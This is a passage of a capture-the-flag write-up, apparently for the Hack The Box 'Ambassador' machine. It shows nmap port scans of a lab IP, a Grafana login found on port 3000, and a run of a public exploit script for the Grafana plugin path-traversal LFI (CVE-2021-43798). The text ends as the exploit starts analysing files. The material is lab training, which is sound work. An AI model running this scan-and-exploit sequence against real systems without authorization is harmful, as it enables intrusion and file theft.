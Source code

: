 ## User Flag

First of all port scanning

```shell
$ nmap -Pn -sS -n -p- -v --min-rate 5000 -oN allports 10.10.11.183

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  MySQL
```

four TCP ports are open, let's scan them more deeply.

```shell
$ nmap -sCV -p22,80,3000,3306 -vv -oN targeted 10.10.11.183

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Ambassador Development Server
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
3000/tcp open  ppp?    syn-ack ttl 63
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 302 Found
...
3306/tcp open  MySQL   syn-ack ttl 63 MySQL 8.0.30-0ubuntu0.20.04.2
| MySQL-info:
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
...
```

We have the usual ssh and http but there is also what seems to be another http service running on port 3000 and a MySQL database.

On the webpage on port 80, we find a curious sentence `Use the developer account to SSH, DevOps will give you the password.`. So we know one user is present in the machine. On the other hand, on port 3000 we find a *Grafana* login page, by searching the version on the internet I found it is vulnerable to LFI and also [this exploit](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798). It seems that the application is vulnerable to LFI in the `/public/plugins/` + Plugin name  directory.

Now just change the contents of the `targets.txt` folder to the corresponding IP and run it.

```shell
$ python3 exploit.py
  _____   _____   ___ __ ___ _     _ _ ________ ___ ___
 / __\ \ / / __|_|_  )  \_  ) |___| | |__ /__  / _ ( _ )
| (__ \ V /| _|___/ / () / /| |___|_  _|_ \ / /\_, / _ \
 \___| \_/ |___| /___\__/___|_|     |_|___//_/  /_/\___/
                @pedrohavay / @acassio22

? Enter the target list:  targets.txt

========================================

[i] Target: http://10.10.11.183:3000


[i] Analysing files...
```